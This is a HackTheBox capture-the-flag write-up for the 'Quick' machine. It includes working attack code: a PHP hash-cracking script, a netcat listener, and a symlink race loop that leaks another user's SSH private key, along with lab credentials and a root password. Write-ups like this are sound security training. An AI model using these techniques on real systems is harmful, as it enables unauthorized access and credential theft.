 <p align="center">
  <img src="https://github.com/cyberwr3nch/hackthebox/blob/master/writeups/assets/Quick.jpg" alt='HTB_quick'>
</p>

### Description:
- Enumerating ports in TCP and UDP
- Accessing the HTTP/3 protocol
- Logging in to the Webserver on port 9001
- ESI Injection on port 9001
- Shell as `sam`, `user.txt` is obatained
- Enumerated a vhost, `printerv2.quick.htb`
- Obtain the password for srvadm for logging in
- Creating a `symblink` for the `srvadm's id_rsa`
- ssh key obtained to login to the machine
- Analysing the cache file, a password is enumerted which is used to escalate as root
- `root.txt` is obtained

### Difficulty:

`Linux - Hard`

#### Enumeration

- Open ports `22, 9001` 
- Port `ssh` and `http`
- In the webpage, the clients name and organisation has been enumerated
- A new vhost `https://portal.quick.htb` is enumerated stating it uses the latest version of `http` either via [quiche](https://github.com/cloudflare/quiche) or with [curl](https://github.com/yurymuski/curl-http3) docker image
- Accessing the page via http3 gives documents and further usernames
- Password for logging into the login.php in the port 9001 has been enumerated
- Constructing an organizational email and bruteforcing with the password yields us the login access, 'elisa@wink.co.uk : Quick4cc3$$`


#### Obtaining Shell

- In the login page, we can see the web application is powered by `ESIGate` (a caching service for faster response)
- A vulnerability exists in ESI which could lead to RCE, a blog covering the vulnerability from [GoSecure](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
- With this RCE, Shell is obtained as `sam`
- `user.txt` is obtained

#### User srvadm

- After obtaining the shell as `sam`, roaming around the `/var/www` directory a new folder named `printer` and `jobs` has been enumerated
- Looking at the `apache configuration file` a new vhost `printerv2.quick.htb` has been enumerated
- Adding the vhost to the `hosts file` and accessing the page prompts a login page
- Taking a look at the `index.php` the login requires to have the user email as `srvadm@quick.htb` else the session wont start
- The password that is provided is encrypted with `crypt()` with the key `fa`
- We can either use the same algorithm to crack the passoword of the srvadm or we can alter the srvadm's password with mysql
- In the `db.php` the username, password and database has been enumerated
- Logging into the mysql service and looking for the hash
- After cracking / changing the password for the srvadm, login to the `printerv2.quick.htb`
- Adding a new printer in the webpage, which is our machine. Testing the connection with netcat
- Looking at the source code of jobs and printer.php, tells that the machine is pinged once and when a job is assigned to the machine it does the job and sends it to the printer
- Since the files that are processed with the mode `0777`, creating a symblink to access the internal files would be a better option since its being echoed back
- When a job is assigned to the printer, a file is created with the format `Y-m-d_H:i:s`
- And when the job is done, when the output is shown as text in the printer the job file dies
> In the following step you have to, run the bash script in the quick machine for symblinking, listen on port 9100 for the text output, and assign a job for the printer in the webpage
> 3 works simultaniously
- Creating a infinite loop to check the job files existance and symblinking it to another files is the potential way to own the user
- Confirming this with the known file `/etc/passwd` which provides the contents of the file, now on to the srvadm's id_rsa file

#### Privilege Escalation

- With srvadm's id_rsa being obtained in the listening netcat session, we can use it to login to the quick as srvadm
- In the home folder, a `.cache` folder is enumerated which containes the config files for the printer
- Looking for passwords in the config files yields a `url encoded` password
- Decoding the password, and trying it with the root provides the `root shell` `root@quick.htb : &ftQ4K3SGde8?`
- `root.txt` obtained

### Commands

```bash
# quiche installation
git clone --recursive https://github.com/cloudflare/quiche.git
cd quiche
sudo apt install cargo
sudo apt-get install cmake
cargo build --examples
cd target/debug/exampls

# dokcer curl image
docker pull ymuski/curl-http3

# Accessing the webpage
# with quiche 

# with curl 
docker run -it --rm ymuski/curl-http3 curl --http3 "https://10.10.10.186/"
```

```bash
# accessing mysql 
mysql -u db_adm -D quick -p
--> Password: db_p4ss

mysql> show tables;
+-----------------+    
| Tables_in_quick |    
+-----------------+    
| jobs            |    
| tickets         |    
| users           |    
+-----------------+    
3 rows in set (0.00 sec) 
mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

```php
# cracking the password of the server admin
<?php
$hash = "e626d51f8fbfd1124fdea88396c35d05";
$wordlist = explode("\n", file_get_contents("/opt/payloads/rockyou.txt"));
foreach ($wordlist as $word ) {
        echo 'Trying the word: '. $word ."\n";
        $hashed = md5(crypt($word,"fa"));
        if ($hashed === $hash){
                echo "<==================================================================> \n";
                echo "The Password for the hash " .$hash . " is found \n";
                echo "Cracked: ". $word . "\n";
                echo "<==================================================================> \n";
                exit(0);
        }
}
echo "bad luck :(";
exit(1);
?>

<==================================================================> 
The Password for the hash e626d51f8fbfd1124fdea88396c35d05 is found 
Cracked: yl51pbx
<==================================================================> 

# changing the password for srvadmin
update users set password = "e626d51f8fbfd1124fdea88396c35d05" where name = "Server Admin";
```

```bash
# netcat listner
# netcat listens even after getting a connection
nc -lvnkp 9100
```

```bash 
# bash script to symblink the jobs to the required file
#!/bin/bash
for i in $(seq 1 90000); do
        x=$(ls /var/www/jobs/)
        if [[ $x ]];then
                rm -f /var/www/jobs/$x
                ls -la /var/www/jobs
                ln -s /home/srvadm/.ssh/id_rsa /var/www/jobs/$x
                ls -la /var/www/jobs
        fi
done


# oneliner
while true ; do N=`date +%Y-%m-%d_%H:%M:%S` ; if [[ -r $N ]] ; then rm -f $N ; ln -s /home/srvadm/.ssh/id_rsa $N ; fi ; done
```

```bash
# greping for the string password
grep -EnRi 'root|password' .
```

